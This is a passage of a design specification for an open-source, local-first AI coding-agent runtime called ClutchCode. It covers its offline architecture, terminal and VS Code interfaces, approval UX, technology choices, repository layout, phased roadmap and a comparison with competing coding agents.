A/B on the realistic-task suite: **model X (14B Q4, Profile B) naked single-shot vs model X under ClutchCode** (capability probe + edit-format fallback + verification repair + context budgeting). Report the VTCR delta with confidence intervals over repeated runs (local models are nondeterministic; average over K seeds). Publish the methodology so the claim is falsifiable. **[C:High]**


## 17. Local-First Architecture

```
User Computer (everything below lives here; nothing above the model provider line leaves unless remote)
├── Interface: CLI / TUI  AND  VS Code extension  (§18) ── both talk to →
├── Agent API (local, in-process for CLI; JSON-RPC over stdio for editor clients)
├── Agent Runtime (state machine, adaptation layer, budgets, memory)
├── Local DB: SQLite (runs, memory, traces) + JSONL transcripts
├── Git (worktree isolation)
├── Sandbox (Seatbelt / bwrap+Landlock / WSL2 / optional Docker)
├── Local model server (optional): Ollama / llama.cpp / vLLM / LM Studio / MLX
└── User-selected model API (optional): Anthropic / OpenAI-compat / Gemini / …
```

**No mandatory cloud, backend, telemetry, account, or login.** **[C:High]**

**Testable requirement (a real CI test, not a slogan):** *"Disconnect the network, point at Ollama, complete a task."* The eval harness (§16) runs a designated offline task with egress fully blocked at the OS level and a local model, and asserts a successful verified completion. If that test can't pass, the local-first claim is false. This test is a **release gate.** **[C:High]**

Implications enforced by architecture: the credential store, run DB, memory, and traces are all local files/SQLite (§5, §10, §15); the only outbound connection is to the *user-configured* model endpoint, which is `localhost` in the local case. There is no code path that contacts a ClutchCode-operated host because no such host exists (§19).

---

## 18. CLI/TUI & VS Code — Interface Strategy & UX

**Explicit product requirement (from the user): ship BOTH a terminal interface AND a VS Code extension.** This section reconciles that with a single runtime.

### 18.1 Interface strategy: CLI/TUI-first core, VS Code as a first-class client of the same runtime

The prompt's §23 asks to pick exactly one for v1. We choose **CLI/TUI-first as the v1 core**, and treat the **VS Code extension as a first-class client that speaks to the same Agent API**, delivered as an explicit companion (not deferred to "someday"). Justification:

| Factor | CLI/TUI-first | Web-first | Why CLI/TUI wins for our user |
|---|---|---|---|
| Target user (individual dev, terminal-native) | ✓ | partial | devs live in terminals + editors |
| Implementation cost | low | high (server+frontend) | small team, Phase 1 in weeks (§21) |
| Streaming/diff-review ergonomics | strong (TUI) / excellent (VS Code diff) | good | terminal for speed, editor for rich diff |
| Remote/SSH usage (Profile D homelab) | **native** | needs port-forward | SSH into the homelab and run it |
| Local-first fit | ✓ | tempts a server | no server (§17) |

A **web dashboard is explicitly deprioritized** (§22). The **key architectural move**: the runtime exposes an **Agent API** with two bindings — (1) in-process for the CLI/TUI, (2) **JSON-RPC over stdio** (LSP/ACP-style) for editor clients. The VS Code extension is a thin TypeScript client of binding (2). Because the runtime is TypeScript (§19), the CLI, the TUI, and the extension **share 100% of runtime code**; only the presentation differs. This is the concrete reason the language choice (§19) is TypeScript. **[C:High]**

### 18.2 Command surface (Phase 1 / Phase 2 / Later)

| Command | Purpose | Phase |
|---|---|---|
| `agent init` | scaffold config + AGENTS.md in a repo | **Phase 1** |
| `agent doctor` | detect OS/GPU/VRAM, providers, local servers; recommend+pull a model; run capability probe; verify offline path (§4.10) | **Phase 1** |
| `agent providers` | list/configure providers + keys (→ keychain §5) | **Phase 1** |
| `agent models` | list models; `models pull`, `models probe` (§4.9) | **Phase 1** |
| `agent run <task>` | run the default workflow on a task | **Phase 1** |
| `agent status` | show active/last run state | **Phase 1** |
| `agent diff` | show worktree-vs-base diff | **Phase 1** |
| `agent approve` / `agent reject` | accept/discard a run's changes | **Phase 1** |
| `agent commit` | finalize commit (message gen, hooks) | **Phase 1** |
| `agent inspect <run_id>` | replay decision trail (§15.3) | **Phase 1** |
| `agent resume <run_id>` | resume from RunState (§6.2) | **Phase 1** (thin) / hardened Phase 2 |
| `agent rollback <ckpt>` | restore a checkpoint (§13.3) | Phase 2 |
| `agent memory` | list/show/correct project memory (§10.3) | Phase 2 |
| `agent config` | get/set config; policy; allow-read | **Phase 1** (core) |
| `agent workflow` | list/select/validate workflows (§8) | Phase 2 |
| `agent trust` | mark a repo trusted (§12.4) | **Phase 1** (as a config flag) |
| `agent eval` | run the eval suite / scoreboard (§16) | Phase 2 (runtime-replay part earlier) |
| `agent pr` | prepare a PR (§13.5) | Phase 2+ |

### 18.3 Approval UX & avoiding approval fatigue

Approval fatigue (users blanket-approving everything) is *the* HITL failure mode. Countermeasures:

- **Batch by class, not per-call:** "The agent wants to run `npm test` (and 2 similar test commands). Allow all test commands this run? [y/N/always-for-this-repo]." Remembered per command-class per run (§12.2).
- **Risk-tiered prompts:** READ/WRITE-to-worktree are silent-ALLOW; only EXECUTE-first-of-class, destructive, and NETWORK prompt. The user sees *few, meaningful* prompts, so they actually read them.
- **The diff is the real approval.** The high-value human decision is the **final diff review** (§14.7), not each shell call. UX funnels attention there: rich diff, verification results inline ("tests: 42✓ 0✗; no cheat flags"), and a single approve/reject/edit.
- **`--yes` / auto-approve** exists for trusted repos + CI but still enforces the deterministic gate + no-cheat contract (§14.7). Auto-approving does not disable verification.

### 18.4 Interactive vs one-shot, streaming, Ctrl-C, exit codes

- **Interactive** (`agent run` in a TTY): TUI with live streaming, steering (§6.5), approval prompts.
- **One-shot / non-interactive** (`agent run --task ... --yes --json`): no prompts (policy defaults + contract), **machine-readable JSON** on stdout, suitable for scripts/CI.
- **Streaming:** model tokens + tool activity stream live; long tool output is truncated live (§11.3).
- **Ctrl-C:** once = graceful pause (persist RunState, `resume`-able); twice = cancel (worktree kept for inspect) (§6.5–6.6).
- **Exit codes:** `0` success (contract met), `1` failed verification, `2` escalated/needs-human, `3` budget/cost limit hit, `4` config/env error, `130` interrupted. Documented and stable for scripting.

### 18.5 VS Code extension (companion, same runtime)

- **Boundary:** extension (TS) ⇄ Agent API over stdio JSON-RPC (§18.1). The extension spawns/attaches to the runtime; **no separate reimplementation** of agent logic in the extension.
- **UX:** a task input; live streaming in a panel; **native VS Code diff view** for review (the best diff-review surface we have); approve/reject buttons wired to `agent approve/reject`; inline verification results; the same worktree isolation (§13) so the user's open editor buffers/uncommitted work are safe.
- **Interface boundary specified now so it stays possible later** for Zed/Neovim: any editor that can speak the stdio JSON-RPC Agent API (LSP-adjacent) is a client. This is deliberately the **same shape as ACP** (Agent-Client Protocol, seen in the OpenHands agent-canvas clone, `research/00_METHOD.md`) so future editor clients are cheap. **[C:High]** on the boundary design; **[C:Med]** on VS Code extension polish timeline (Phase 10, brought forward as a named deliverable because the user requires it — see §25).

### 18.6 Install story (decides adoption)

| Path | Pros | Cons | Verdict |
|---|---|---|---|
| **npm (`npm i -g` / `npx clutchcode`)** | zero extra tooling for JS devs; matches runtime (§19) | needs Node | **primary for Phase 1** |
| **Single binary (Bun compile / Node SEA)** + `curl \| sh` | no Node needed; Profile-D servers | build matrix; larger | **Phase 2** (broadens reach) |
| **Homebrew / Scoop** | native feel | packaging upkeep | Phase 2 |
| **VS Code Marketplace / OpenVSX** | discovery for editor users | review process | ships with the extension |

**Metric to optimize: time-to-first-successful-task.** `agent init && agent doctor && agent run "..."` should reach a verified diff on a sample repo in minutes. `agent doctor` doing the local-model setup (§4.10) is the long pole for Profiles A/B/D and is why it's in Phase 1. **[C:High]**

---

## 19. Technology Selection

Each decision scored on: performance · implementation complexity · developer experience · **contributor availability (first-class OSS constraint)** · ecosystem maturity · security posture · maintenance · distribution · lock-in.

### 19.1 Core runtime language

| Option | Perf | Single-binary dist | Sandbox control | Editor integration | Contributor supply | AI/CLI ecosystem |
|---|---|---|---|---|---|---|
| **TypeScript/Node** | good (I/O-bound; model is the bottleneck) | via SEA/Bun (ok) | via subprocess to OS tools | **best (VS Code is TS)** | **very high** | strong CLI/TUI + MCP SDKs |
| Bun (TS runtime) | better startup + `bun build --compile` | **good** | same as Node | same (VS Code still Node host) | high | growing |
| Rust | best | **best** | **best (native Landlock/seccomp)** | needs TS extension shim | lower (steeper) | growing (Codex, goose) |
| Go | great | **best** | good | needs TS extension shim | medium | good (crush) |
| Python | fine | poor (packaging pain) | via subprocess | weaker | **highest (AI libs)** | **best AI libs** |

**Decision: TypeScript on Node (targeting Bun-compatibility for single-binary builds).** **[C:High]**

Reasoning tied to constraints:
- **The dual-interface requirement decides it.** A first-class VS Code extension *must* be TypeScript (the extension host is Node). Choosing TS for the core means the CLI, TUI, and extension **share one runtime** (§18.1) — no reimplementation, no cross-language RPC to our own logic. Rust/Go would force a second language for the extension and a stable RPC to our own core; that doubles the surface and raises the contributor bar.
- **Perf is not the bottleneck.** A coding agent is dominated by model latency (network or local inference), not harness CPU. TS's perf disadvantage vs Rust is largely irrelevant on the critical path; Codex chose Rust mainly for *sandbox control*, which we obtain by **shelling out to OS sandbox tools** (§12) instead.
- **Contributor supply** (the first-class OSS constraint) is high for TS and highest for Python; TS beats Python on distribution and editor integration, and Python's packaging story is a real adoption tax for a CLI.
- **Own the cost:** TS's weaknesses are (a) single-binary distribution — mitigated by Bun compile / Node SEA (§18.6, Phase 2) — and (b) native sandbox syscalls — mitigated by the **escape hatch below.**
- **Escape hatch (specified):** performance- or sandbox-critical pieces are **process-boundary native helpers** (a small Rust/Go binary invoked over stdio) — e.g., a Linux Landlock/seccomp helper, or a fast indexer. The architecture already uses a process boundary for the sandbox and for editor clients, so adding a native helper is idiomatic, not a rewrite. Migration path if TS ever becomes limiting: move the runtime core to Rust behind the *same* Agent API, keeping the TS extension/CLI as clients (ADR-001).

### 19.2 Other decisions

| Decision | Choice | Confidence | Rationale / escape hatch |
|---|---|---|---|
| **Storage** | **SQLite** (runs/memory/traces) + **JSONL** (transcripts) + **`AGENTS.md`** (project memory, committed) | High | No server (contra Postgres). SQLite is embedded, offline, queryable; flat JSONL for append-only transcripts. |
| **Sandbox** | tiered per §12.6 (Seatbelt / bwrap+Landlock / WSL2 / optional Docker) via subprocess + optional Rust helper | Med (Win weak) | OS primitives per their docs; Codex studied not copied (LICENSE §3). |
| **Repo indexing** | ripgrep + on-demand tree-sitter (Phase 1); PageRank map (Phase 7); **no vector DB** | High | §9 — simplest thing that works; add tiers on measured need. |
| **Internal API layer** | in-process for CLI; **stdio JSON-RPC** daemon boundary for editor clients (ACP-shaped) | High | No REST daemon by default (no open port, local-first §17). |
| **Config format** | **TOML** for `agent.toml` (human) + **JSON-Schema** validation; workflows = typed TS DSL (built-ins) + JSON-Schema declarative (user) | Med | TOML is comment-friendly and unambiguous; schema gives validation + editor hints. |
| **Packaging** | npm primary; Bun/SEA single-binary + Homebrew Phase 2; VS Code Marketplace/OpenVSX for extension | Med | §18.6; single-binary maturity is the risk. |
| **Provider layer** | OpenAI-compatible-first + native Anthropic + native Ollama (Phase 1); Gemini + constrained-decode hooks (Phase 2) | High | §4.7 — one adapter covers the long tail incl. local servers. |

**Explicit tension acknowledged (from the prompt):** Python maximizes AI-ecosystem libraries; Rust/Go maximize single-binary + sandbox; TypeScript maximizes CLI/TUI + editor integration. **We pick TypeScript, own the single-binary and native-syscall costs via Bun-compile + a process-boundary native helper, and gain the shared-runtime dual interface the product requires.** **[C:High]**

---

## 20. Repository Structure

Monorepo (single repo, workspaces). Justification: the CLI, TUI, VS Code extension, and runtime **share the runtime package** and must version together; a monorepo keeps the Agent API contract and its clients in lockstep, and lets the model layer stay swappable behind a package boundary. Module boundaries below keep the model layer swappable and the tool layer testable (§2).

```
clutchcode/                      # monorepo (pnpm/bun workspaces), Apache-2.0, DCO
├── packages/
│   ├── runtime/                 # state machine, adaptation layer, budgets, loop detection (model-stubbable)
│   ├── providers/               # Provider interface + adapters (OpenAI-compat, Anthropic, Ollama, Fake)
│   ├── tools/                   # native tool set + tool interface + truncation
│   ├── workflows/               # typed DSL + built-in workflows + JSON-Schema loader
│   ├── sandbox/                 # tier engine + OS adapters (+ native helper bindings)
│   ├── verification/            # pipeline, toolchain detect, cheat detection
│   ├── memory/                  # session/project/long-term stores; AGENTS.md handling
│   ├── git/                     # worktree isolation, checkpoints, diff, delivery
│   ├── repo-intel/              # ripgrep+tree-sitter (Phase 1); pagerank map (later)
│   ├── observability/           # event model, JSONL+SQLite, inspect/replay
│   ├── agent-api/               # the Agent API: in-process + stdio JSON-RPC (ACP-shaped)
│   └── capability/              # capability matrix, probe, profile persistence
├── apps/
│   ├── cli/                     # `agent` CLI + TUI (thin client of agent-api)
│   └── vscode/                  # VS Code extension (thin TS client of agent-api over stdio)
├── native/                      # optional Rust helper(s): landlock/seccomp, fast index (process-boundary)
├── evals/                       # eval suite, scoreboard, recorded-transcript replay harness
├── docs/                        # user docs, PRIOR_ART.md (attribution), adr/ (project's own ADRs)
├── examples/                    # sample repos + AGENTS.md examples + workflow examples
└── tests/                       # cross-package integration + the offline-completion release-gate test
```

**Dependency view of the same structure.** The tree above shows *layout*; this
shows *who may depend on whom*, which is the part that is normative. The single
rule that matters: **`apps/*` depend only on `agent-api`** (plus `agent-rpc` for
the stdio JSON-RPC binding, or `acp` for the real Agent Client Protocol binding
— §18.1/§26) and never reach into `runtime` or below. That is what lets the
CLI, the VS Code extension, and any future editor client (Zed, Neovim, Emacs —
anything that already speaks ACP) share 100% of the runtime code while
differing only in presentation. `acp` is a *second* binding alongside
`agent-rpc`, not a replacement: both wrap the same `agent-api` surface over
different wire formats (`agent-rpc`'s LSP-style `Content-Length` framing vs.
ACP's newline-delimited JSON), so adding one never requires touching the other
or the VS Code extension that depends on it.



`git`, `providers` and `sandbox` are leaves — they depend on no other workspace
package, which is what keeps them independently testable (§2). A dependency
edge pointing *upward* through this graph, or an `apps/*` edge that bypasses
`agent-api`, is a boundary violation regardless of whether it compiles.


Boundary rules: `runtime` depends on `providers`, `tools`, etc. **only through interfaces**; `providers/FakeProvider` enables model-stubbed tests everywhere (§2). `apps/*` depend only on `agent-api`, never reach into `runtime` internals — so the same API serves CLI and editor. **[C:High]**

---

## 21. Phase 1 Scope & Phasing Table

**Aggressively small Phase 1 scope.** It must do exactly this, well:

```
install → configure a provider (one API + one local) → open a repo → give a task →
inspect files → edit files → run commands → run tests → repair failures →
show diff → human approves → commit
```

Concretely, Phase 1 = single agent, default workflow, one native tool set, **two provider adapters (OpenAI-compatible + Ollama)** so both an API user (Profile C) and a local user (Profile B/D) are covered day one, SEARCH/REPLACE edits with the fallback cascade, tiered sandbox Tier 0+1 (Seatbelt/bwrap; WSL2 doc for Windows), git worktree isolation, deterministic verification with cheat detection, terminal CLI/TUI, the capability probe, and the runtime-replay test harness. **The VS Code extension is a fast-follow** (the user requires it) — the Agent API boundary ships in Phase 1 so the extension is a thin client, and the extension itself lands as the first deliverable after Phase 1 (§25 reorders it earlier than the prompt's Phase 10).

**If a section of this spec has no Phase 1 surface, it says so:** §7 Multi-Agent (none — Phase 9), §8 user-authored workflows (only built-ins in Phase 1), §9 PageRank map & vector DB (none — ripgrep+tree-sitter only), §16 full eval scoreboard (only the replay harness in Phase 1).

### 21.1 Phase classification table

| Capability | Phase 1 | Phase 2 | Phase 3 | Future |
|---|---|---|---|---|
| CLI/TUI, `run/diff/approve/commit/inspect/doctor` | ✓ | | | |
| OpenAI-compat + Ollama providers | ✓ | | | |
| Capability probe + edit-format fallback | ✓ | | | |
| SEARCH/REPLACE edits + whole-file fallback | ✓ | | | |
| Shell + tests + toolchain autodetect | ✓ | | | |
| Verification gate + **cheat detection** | ✓ | | | |
| Git worktree isolation + diff review | ✓ | | | |
| Sandbox Tier 0 + Tier 1 (mac/Linux) | ✓ | Windows/WSL2 hardening | Docker Tier 2 | microVM |
| Runtime replay-test harness (§16.3c) | ✓ | | | |
| **VS Code extension** (Agent API client) | API boundary only | **extension ships** | Zed/Neovim clients | |
| Provider: Anthropic native, Gemini | Anthropic native | Gemini + constrained-decode | | |
| Model routing (local↔API escalation) | | ✓ | | |
| Memory: AGENTS.md read/write | basic read | correction UX (`agent memory`) | long-term history queries | |
| Repo intel: ripgrep+tree-sitter | ✓ | | PageRank map | (vector DB only if proven) |
| Workflow engine: built-ins | ✓ | user declarative workflows | | |
| Eval scoreboard (SWE-bench subset) | | ✓ | full suite + published methodology | |
| Multi-agent orchestration | | | | Phase 9 |
| PR preparation, rollback, resume-hardening | | ✓ | | |
| Single-binary + Homebrew install | | ✓ | | |

**Phase 1 feasibility check (self-review Q3, §29):** Phase 1 is one agent + one workflow + two providers + core tools + verification + worktree + TUI. That is buildable and dogfoodable by a very small team in a few weeks **because** the hardest, most novel piece (the capability-adaptation layer) has a small Phase 1 surface: probe + edit-format select/fallback + context budget. The eval-replay harness is small and pays for itself immediately. **[C:Med]** (weeks is plausible but tight; sandbox Tier 1 per-OS and the probe are the schedule risks.)

---

## 22. Non-Goals (each with a one-line reason)

- **Hosted SaaS** — contradicts local-first; no servers exist (§17).
- **Accounts / billing / login** — nothing to authenticate to; users own keys (§5).
- **Model training / fine-tuning** — we adapt *around* models; also constrained by provider ToS (LICENSE §5).
- **A custom / proprietary model** — the model is replaceable, not ours (§2).
- **RAG for its own sake / mandatory vector DB** — unjustified for our repos (§9).
- **Plugin marketplace** — MCP is the extension boundary; a curated marketplace is scope creep and a security surface (§12).
- **Enterprise / compliance features** (SSO, audit exports, RBAC) — wrong user (§3).
- **Team collaboration / multiplayer** — individual-developer tool.
- **Social features** — irrelevant.
- **General-purpose autonomous agent platform** — we are a *coding* agent runtime, deliberately narrow.
- **IDE fork** — we integrate with VS Code via extension, we do not fork an editor.
- **Browser automation / computer-use** — out of scope; large security surface for little coding value.
- **(added) Cloud-synced settings/memory** — memory is local + repo-committed (§10); no sync service.
- **(added) Auto-push / auto-PR without explicit command** — delivery is always user-initiated (§13.5).
- **(added) Being the best harness for a frontier model** — that is the vendor CLIs' game; we win on local/agnostic/verified (§1, §23).

---

## 23. Competitive Analysis — differentiators & failure modes

Architecture only; marketing ignored. (Grok "Build"/xAI official CLI: **verified non-existent** at `xai-org/grok-cli`; the community `superagent-ai/grok-cli` exists — see `research/00_METHOD.md §4`. No official xAI coding CLI is claimed.)

### 23.1 Feature/architecture matrix

| Capability | Claude Code | Codex CLI | Aider | OpenHands | Cline | Goose | Continue | Archon | **ClutchCode** |
|---|---|---|---|---|---|---|---|---|---|
| License | Proprietary | Apache-2.0 | Apache-2.0 | MIT | Apache-2.0 | Apache-2.0 | Apache-2.0 | MIT | **Apache-2.0** |
| Open source | ✗ | ✓ | ✓ | ✓ | ✓ | ✓ | ✓ | ✓ | ✓ |
| Local model first-class | ✗ | partial | ✓ | ✓ | ✓ | ✓ | ✓ | n/a | **✓ (adaptation layer)** |
| **Per-model capability adaptation** | n/a | ~ | edit-fmt/model | ~ | ~ | ~ | routing | n/a | **✓ (probe+matrix)** |
| Edit format | (bundle) | apply_patch | **search/replace (leader)** | LLM/ACI | XML search/replace | tools | apply | n/a | search/replace+fallback |
| Verification-gated completion | partial | partial | lint/test | tests | tests | ~ | ✗ | n/a | **✓ + cheat detection** |
| **Cheat detection** | ✗ | ✗ | ✗ | ✗ | ✗ | ✗ | ✗ | n/a | **✓ (differentiator)** |
| Sandbox | (managed) | **strong (Seatbelt/Landlock)** | confirm-only | **Docker (strong, heavy)** | approve | ~ | ✗ | n/a | tiered, laptop-first |
| Git worktree isolation | ~ | ~ | dirty-commit | container fs | shadow-git checkpoints | ~ | ✗ | n/a | **✓ per-run worktree** |
| Terminal | ✓ | ✓ | ✓ | (web) | ✗ (editor) | ✓ | ✗ | n/a | **✓** |
| VS Code extension | (ecosystem) | ~ | ~ | ~ | **✓ (native)** | ✗ | **✓** | n/a | **✓ (same runtime)** |
| Resumable RunState | ~ | session | chat hist | **✓ (State)** | task+ckpt | ~ | n/a | n/a | **✓** |
| Telemetry-free / no-server | ✗ | config | ✓ | self-host | config | config | config | server | **✓ (by design, tested)** |
| MCP support | ✓ | ✓ | ~ | ✓ | ✓ | **✓ (core)** | ✓ | ✓ (server) | ✓ (extension boundary) |

(~ = partial/qualified; based on the repo notes and `research/00_METHOD.md`; several cells `UNVERIFIED:` at feature granularity.)

### 23.2 The two–three defensible differentiators

1. **Capability-adaptation layer that makes weak/local models usable** (§4) — probe + edit-format fallback + tool-call emulation + context budgeting. No competitor treats "adapt the harness to the model's measured ability" as the core product; most assume a capable model.
2. **Verification-first completion with cheating detection** (§14) — a green checkmark that the agent *earned* and did not fake. The cheat-detection layer (§14.6) is, per this research, **not present in any reference project** and is high-value.
3. **Laptop-appropriate security + true local-first** (§12, §17) — tiered OS sandbox (Docker optional, not mandatory) + a tested offline path + no servers/telemetry. This is a *combination* none of the competitors hit for the individual developer.

### 23.3 Where each competitor is simply better (and will stay better)

- **Claude Code / Codex:** on their own frontier model, their tuned harness will beat ours; they ship faster with lab resources. We do not contest that ground.
- **Aider:** raw edit-application maturity and the published edit-format leaderboard — years of tuning we will not match soon; we adopt its lessons.
- **OpenHands:** Docker-based isolation is genuinely stronger than our default tier, and its research/benchmark infrastructure is more mature.
- **Cline:** deeper, more polished VS Code integration today (it *is* a VS Code extension); our extension will trail its editor UX for a while.
- **Goose:** more mature MCP-centric extensibility.
- **Continue:** more mature model-routing/config breadth and editor breadth.

### 23.4 Differentiators we cons/could NOT substantiate — killed

- "Faster than the vendor CLIs" — **killed**; unsubstantiated and irrelevant (model-bound).
- "Better multi-agent orchestration" — **killed**; we argue *against* default multi-agent (§7).
- "A vector-DB-powered deep code understanding" — **killed**; unjustified (§9).
- "More secure than Docker-based tools" — **killed**; our default tier is *lighter*, not stronger, than Docker (§12.7 is explicit).

### 23.5 Why this project might fail (honest)

- **Vendor CLIs improve faster** and subsume "local model support" enough to erase differentiator #1.
- **Local models stay too weak** for real tasks even with adaptation — if the §16.4 VTCR delta is small, the core claim collapses.
- **Maintainer bandwidth** — a runtime + adaptation layer + sandbox tiers + VS Code extension is a lot for a small team; scope discipline (§21) is survival, not neatness.
- **Security incident** — we execute LLM-generated code; one bad sandbox-escape headline could end trust. §12.7's honesty is partly reputational insurance.
- **Ecosystem consolidation around one agent protocol** (MCP/ACP) could commoditize the harness layer, making "yet another runtime" redundant — mitigated by leaning into those protocols as a client rather than fighting them.
- **The "adapt to weak models" bet is contrarian**: if the world simply gets cheap strong models, the adaptation layer's value shrinks. We accept this bet knowingly; the local-first/privacy/no-lock-in axis remains even then.


## 24. Final Architecture

### 24.1 Authoritative diagram

```
┌──────────────────────────────────────────────────────────────────────────┐
│ INTERFACE                                                                  │
│   CLI / TUI  (apps/cli)          VS Code extension (apps/vscode)            │
└───────────────┬──────────────────────────┬────────────────────────────────┘
                │ in-process                │ stdio JSON-RPC (ACP-shaped)
                ▼                            ▼
┌──────────────────────────────────────────────────────────────────────────┐
│ AGENT API (packages/agent-api)  — one contract, two bindings               │
└───────────────┬────────────────────────────────────────────────────────────┘
                ▼
┌──────────────────────────────────────────────────────────────────────────┐
│ RUNTIME (packages/runtime)                                                 │
│  Planner · Context/Retrieval · Memory · Tool Router · State machine ·      │
│  Budget/Policy guard · Loop detector                                        │
│                     ▲                    │                                  │
│      capability     │                    ▼                                  │
│      profile ───► ADAPTATION LAYER (packages/capability)                    │
│                   edit-format select · tool transport · context budget      │
└───────────────┬────────────────────────────────────────────────────────────┘
                ▼
┌──────────────────────────────────────────────────────────────────────────┐
│ PROVIDER LAYER (packages/providers) — capability-aware adapters             │
│  OpenAI-compat · Anthropic · Ollama · (Gemini) · FakeProvider(CI)          │
└───────────────┬───────────────┬────────────────────────────────────────────┘
                │               │
    remote API  │               │ localhost (Ollama/llama.cpp/vLLM/LM Studio/MLX)
                ▼               ▼
┌──────────────────────────────────────────────────────────────────────────┐
│ TOOLS (packages/tools)  fs · shell · git · search · tests · pkg · process   │
└───────────────┬────────────────────────────────────────────────────────────┘
                ▼
┌──────────────────────────────────────────────────────────────────────────┐
│ SANDBOX (packages/sandbox)  Tier0 policy · Seatbelt/bwrap+Landlock/WSL2 ·   │
│   optional Docker · child-env scrub · egress default-deny  (+native/ helper)│
└───────────────┬────────────────────────────────────────────────────────────┘
                ▼
┌──────────────────────────────────────────────────────────────────────────┐
│ VERIFICATION (packages/verification) build·test·lint·type·scan·cheat-detect │
└───────────────┬────────────────────────────────────────────────────────────┘
                ▼
┌──────────────────────────────────────────────────────────────────────────┐
│ GIT / DELIVERY (packages/git)  worktree isolation · checkpoints · diff · PR │
└──────────────────────────────────────────────────────────────────────────┘
   cross-cutting: MEMORY (session/project/long-term) · OBSERVABILITY (JSONL+SQLite, redacted)
```

### 24.2 Data model (runs, steps, tool calls, artifacts, memory)

```
Run(run_id PK, task, workflow_id, provider, model, capability_profile_id,
    base_commit, branch, worktree_path, state, final_status, termination_reason,
    tokens_in, tokens_out, tokens_cached, cost, started_at, ended_at)
Step(step_id PK, run_id FK, seq, state, kind[plan|inspect|act|edit|verify|repair],
     started_at, ended_at)
ToolCall(tc_id PK, step_id FK, tool, args_json, permission_decision, ok, error_class,
         output_ref, truncated, duration_ms)
Edit(edit_id PK, step_id FK, path, format, applied[bool], failed_block?, checkpoint_commit)
VerifyResult(vr_id PK, run_id FK, stage, status, summary, cheat_flags_json)
Artifact(artifact_id PK, run_id FK, kind[diff|log|report|subagent_out], path, sha256)
Event(run_id FK, seq, ts, type, data_json)        -- append-only JSONL, indexed here
--- memory ---
ProjectFact(repo_id, key, value, derived_at, source, stale[bool])       -- derived cache
MemoryDoc = AGENTS.md (in-repo, not in DB)                              -- human canonical
LongTermDecision(id, repo_id, title, context, decision, outcome, ts)   -- ADR-like history
CapabilityProfile(model_id PK, tool_transport, diff_acc, effective_ctx,
         constrained_decode, instruction_fidelity, probed_at)          -- TOML on disk + DB
```

### 24.3 Main sequence for one task run

```
1. user: `agent run "fix the failing auth test"`  (TTY → interactive)
2. Runtime: create Run; if git → worktree add (branch clutchcode/run-…) from HEAD (§13.1)
3. load capability profile for the configured model (probe if missing, §4.9)
4. UNDERSTANDING: read AGENTS.md (§10); toolchain autodetect (§14.2, from cache if fresh)
5. PLANNING (only if task warrants, §6.7): cheap model call → plan[]
6. INSPECTING: ripgrep/tree-sitter retrieval (§9), bounded by context budget (§4.5);
   open only needed file windows
7. ACTING/EDITING loop:
     adaptation layer picks edit format + tool transport (§4.2)
     model proposes edit → parse/validate → apply cascade (§4.4)
       on fail → repair prompt → (downgrade format) → escalate if capped
     tool calls (shell/tests) go through policy engine (§12.2) + sandbox (§12.6);
       output truncated at ingestion (§11.3)
8. VERIFYING: build→test(selected §14.4)→lint→type→scan→cheat-detect (§14)
     fail → classify (§14.5) → REPAIRING → back to 7 (cap MAX_REPAIR_ITERS)
     cheat flag → force human review
9. AWAITING_APPROVAL: show diff (worktree vs base) + verify summary; user approves/edits/rejects (§18.3)
10. COMMITTING: message gen, run user's pre-commit hooks, commit onto branch (§13.5)
11. run.end: status DONE-SUCCESS (contract met §14.7); events flushed; worktree kept for `inspect`
   (every step above emits Events (§15); at any point Ctrl-C → PAUSED+resumable, §6.5)
```

### 24.4 Failure & escalation paths

```
Model error (bad edit/tool) ─► repair prompt ─► format downgrade ─► escalate(human) at cap
Tool error (bad args)       ─► structured error to model ─► self-correct
Environment error (no tool/net/OOM) ─► NOT model's problem ─► surface to human/doctor
                                        (local OOM ─► suggest lower quant/context §4.10)
Task error (tests fail)     ─► classify ─► repair loop ─► escalate at MAX_REPAIR_ITERS
Cheat detected              ─► block success ─► force human review (§14.6)
Budget/cost hit             ─► pause ─► human extends or stops (§6.3)
Loop/thrash                 ─► inject "already tried" ─► re-plan ─► escalate (§6.4)
Sandbox denial              ─► ASK (if askable) or DENY+log ─► human decides (§12.2)
Any escalation surfaces in the TUI/editor AND in `agent inspect` as a first-class event.
```

---

## 25. Implementation Roadmap

Dependency-aware. **Reordering vs the prompt's suggested phases, with justification:** (a) the **eval replay-harness is pulled into Phase 1** (it is what makes every later phase testable, §16.3c); (b) the **VS Code extension is pulled forward** from "Phase 10" to Phase 3–4 as a named deliverable, because the user requires terminal *and* editor from the outset and the Agent API boundary exists in Phase 1; (c) **provider abstraction + local support is Phase 1-2 co-located**, since Phase 1 already needs Ollama.

| Phase | Deliverables | Depends on | Tests | Key risks | Definition of Done | Rough effort |
|---|---|---|---|---|---|---|
| **0** | This spec + license analysis + research notes | — | n/a | scope creep | reviewed, decisions made | (done) |
| **1** | Minimal agent: OpenAI-compat provider, RunState machine, native tools (fs/shell/search/tests), SEARCH/REPLACE + fallback, git worktree isolation, deterministic verify (build/test), TUI `run/diff/approve/commit/inspect`, **Agent API boundary**, **replay-test harness + FakeProvider + redaction canary** | 0 | unit (tools, edit cascade, state machine) + replay | edit-apply correctness; worktree edge cases | one real bug fixed on a sample repo end-to-end, verified+committed; replay tests green offline | **largest phase** |
| **2** | Provider abstraction hardened + **Ollama/local** + **capability probe** + context budgeter + Anthropic native | 1 | probe scoring; budget tests; local-offline test | probe reliability across models | `agent doctor` sets up a local model + probe; offline task passes | large |
| **3** | Tool system polish + **permission/policy engine** + sandbox Tier 0 + Tier 1 (mac Seatbelt / Linux bwrap+Landlock) | 1 | policy decision tests; sandbox confinement tests (canary) | per-OS sandbox correctness | denylist+egress+destructive-gate enforced & tested | medium-large |
| **4** | **Verification pipeline full** (lint/type/scan) + **cheat detection** + toolchain autodetect + repair loop caps; **VS Code extension core** (same Agent API) | 1,3 | cheat-detection unit corpus; extension e2e | cheat-detection false-pos/neg | cheat corpus caught; extension runs a task+diff-review | medium-large |
| **5** | Git: checkpoints/rollback (incl. untracked), dirty-tree handling, submodule/LFS/monorepo cases, PR prep | 1 | rollback tests incl. untracked; edge-case matrix | untracked rollback correctness | all §13.4 cases handled or explicitly deferred | medium |
| **6** | Workflow engine: typed built-ins + JSON-Schema user workflows + versioning/migration | 1 | schema validation; migration | over-engineering | 3 built-ins + 1 user workflow validated | medium |
| **7** | Memory (AGENTS.md read/write + correction UX) + repo-intel tier-1 (PageRank map) | 1,2 | memory staleness/invalidation; map accuracy | stale-memory correctness | `agent memory` correct/forget works; map improves retrieval metric | medium |
